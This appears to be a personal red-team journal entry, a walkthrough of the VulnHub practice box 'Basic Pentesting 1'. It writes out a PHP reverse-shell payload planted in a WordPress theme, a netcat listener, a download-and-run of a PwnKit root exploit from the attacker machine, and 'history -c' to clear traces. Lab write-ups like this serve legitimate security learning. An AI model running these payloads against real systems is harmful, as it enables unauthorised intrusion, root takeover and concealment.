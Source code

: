 
## Red Team Journal – Day 002 – June 15, 2025

### 🗂️ Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### 🎯 Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### 🚪 Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

nc -lvnp 4444

Result:
Gained shell as www-data.

Enumeration Highlights

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

Key Findings:

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

🔓 Privilege Escalation

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

python3 -m http.server 8000

On Target:

cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit

Result:

root@vtcsec:/tmp# whoami
root

🧼 Cleanup Actions

rm /tmp/PwnKit
history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.
🔧 Tools Utilized

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

💡 Key Takeaways

    Always check /wp-login.php and XML-RPC for exposed WordPress logins

    Use encoded curl payloads to bypass broken command injection

    Static precompiled binaries save time vs. build errors (GLIBC mismatch)

    Do not use fg without setting proper terminal (stty raw -echo)

    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

🔁 Next Steps

Try linpeas.sh or les.sh for automated enum

Explore cron, PATH, and wildcard-based privesc options

Check /home/marlinspike for reused creds

Build a modular PHP reverse shell dropper

Document exploitation workflow into reusable SOPs

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTk0MTc4NzAwNSwtMTUwNTI3ODYxMSwxNj
Q2NDQ0NTg3XX0=
-->